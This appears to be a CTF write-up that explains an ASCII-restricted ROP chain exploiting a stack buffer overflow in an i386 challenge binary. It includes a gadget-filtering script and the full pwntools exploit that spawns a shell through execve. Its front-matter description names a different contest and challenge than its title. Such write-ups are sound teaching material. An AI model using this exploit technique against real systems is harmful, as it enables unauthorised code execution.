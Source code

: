 ```yaml
---
layout: post
title: 0Ctf - Char Writeup
description: "Writeup for the 2016 boston key party reversing 5 exercise, the frog fractions 2"
modified: 2016-03-15
tags: [writeup, ctf, pwn, rop]
comments: true
share: true
categories: [writeups]
---
```


This has been a fairly straightforward challenge. We were given with a binary that had a textbook buffer overflow with no canaries and NX enabled. The only twist in the story was the input filtering which only allowed ASCII characters. Each byte had to  be between 0x20 and 0x7f otherwise the program terminated. This meant that the challenge boiled down to crafting a ROP chain that only contains the "good" characters.

Lucky for us, the program mmaped the provided libc.so to the ASCII friendly 0x5555e000 address. This map was going to serve our only source of ROP gadgets as the program binary itself was loaded on a bad address. I began solving the problem by getting a list of the available libc calls that reside on good addresses. The *nm --dynamic libc.so* command can be used to list exported symbols and I quickly put together a little python script to filter the results.

```python
#!/usr/bin/python2
import sys

with open('functions.list') as f:
    for line in f:
        try:
            address = int(line.split()[0], 16) + 0x5555e000
        except ValueError:
            continue
        test = address
        try:
            for i in range(4):
                lbyte = (test & 0xff)
                if lbyte <= 0x1f or lbyte >0x7e:
                    raise ValueError('shit happens')
                test = test>>8
        except ValueError:
            continue
        sys.stdout.write(hex(address)+'/'+line) #line.split(' ', 1)[1])

```
Unfortunately neither the *system* function nor the */bin/sh* string was at a good address so I had to look for something else. It stuck to me that the *gets* function was available which could be used to overwrite my buffer with unfiltered data. This approach was a dead end and I briefly explain why. *gets* requires a single parameter a pointer to read to, which ,since this challenge was written on i386, is passed on the stack. I ideally wanted to overwrite the stack buffer so I had to push the ESP onto the stack, which seemed fairly easy to do. I quickly put together the ROP chain and then I realised that none of the libc variables are initialized. This is *obviously* not the real libc, just an mmaped binary blob, which means that libc init was never called and all the variables such as stdin pointer, env pointer are left as null. This of course breaks most of the libc function calls.

So I had to come up with a different approach relying only on system calls, or wrappers that do not use any of the aforementioned variables. My plan B became jumping to a *call execve* instruction with the correct parameters set up (I could not just jump to *execve* since it was on a bad address). The problem was that *execve* requires a pointer to the */bins/sh* string, which is on a bad address, and two null pointers (for env and arg) which again cannot be directly supplied. So I had to set up these parameters in registers and push them on the stack in the right order then call execve.

I used *ROPgadget --all* to gather the gadgets and filtered the output the same way as I filtered the symbol list. I have spent some time looking through the gadgets to figure out where and how I could set up the parameters and then I found the *pusha* gadget. *pusha* pushes all the general purpose registers onto the stack in the following order EAX, ECX, EDX, EBX, ESP, EBP, ESI, EDI. This was perfect for me all that was left to do:

* set EAX to 0 as it is going to be the env pointer
* set ECX to 0 as the arg pointer
* calculate the address of */bin/sh* in EDX
* put the address of *call execve* in EBX
* set the address of the next gadget in EDI which was going to be executed after the *pusha*, this gadget should pop off 3 items from the stack (former ESP, EDI, ESI) so that the *call execve* gets executed

There were *pop edi* and *pop ebx* gadgets so setting those up was trivial, just as well as setting EAX to null with a *xor eax eax* gadget. ECX was set to null with and *xchg eax, ecx* gadget and EDX was calculated with an *add eax, 0xc35b0000* and *sub edx, eax* gadgets, setting EAX and EDX appropriately beforehand (/bin/sh: 0x556bb7ec = 0x3a212121-(0xc35b0000+0x215a6935)). The actual exploit code is really messy and I am too lazy to clean it up, so I am just gonna copy it here as is. I hope this explanation makes up for it. The ROP chain worked like a charm after spending considerable amount of time piecing it together, the flag was:

```
flag{Asc11_ea3y_d0_1t???}
``` 

```python
if __name__ == "__main__":
    c = remote(IP, PORT)

    binsh = 0x556bb7ec

# 0x556d2a51/0x00174a51 : pop ecx ; add al, 0xa ; ret
    popecx = 0x556d2a51
# hex((0x3a212121-(0xc35b0000+0x215a6935))&0xffffffff)
    edxval = 0x3a212121
    ecxval = 0x215a6935
# 0x555f3555/0x00095555 : pop edx ; xor eax, eax ; pop edi ; ret
    popedx = 0x555f3555 # 0 eax popedi
    filler = 'CCCC'
# 0x556a6253/0x00148253 : mov eax, ecx ; ret
    moveaxecx = 0x556a6253
# 0x5557734b/0x0001934b : add eax, 0xc35b0000 ; ret
    addieax = 0x5557734b
# 0x5560365c/0x000a565c : sub edx, eax ; pop esi ; mov eax, edx ; pop edi ; pop ebp ; ret
    subedxeax = 0x5560365c #pop esi,edi, ebp trash eax
    
    # Set up bin sh addr in edx
    payload = 'A'*32 +p32(popecx) + p32(ecxval)\
        + p32(popedx) + p32(edxval) + filler \
        + p32(moveaxecx)+p32(addieax) + p32(subedxeax) +filler*3
  

# 0x55617a5f/0x000b9a5f : xchg eax, ecx ; mov eax, 0xff ; jne 0xb9a41 ; ret
    xchgeaxecx = 0x55617a5f
# 0x555f6428/0x00098428 : xor eax, eax ; ret
    xoreax = 0x555f6428
    # Set null in ecx and eax
    payload += p32(xoreax) + p32(xchgeaxecx) + p32(xoreax)


# 0x555f2166/0x00094166 : pop ebx ; pop edi ; ret
    popebxedi = 0x555f2166
    callexecve = 0x55616967
    
    # Set up ebx and edi
    # the subedxeax gadget pops esi, edi, ebp so 
    #it is used to position the stack after the pusha
    payload += p32(popebxedi) + p32(callexecve) + p32(subedxeax)

# pushal; ret; -> returns edi
    pushal = 0x5563704c
    # pushall
    payload += p32(pushal)
 
    #print hexdump(payload)
    payload += 'B'*(2398-len(payload))
    #sys.stdout.write(payload)
    #sys.stdout.flush()
    c.sendline(payload)

    c.interactive()
```
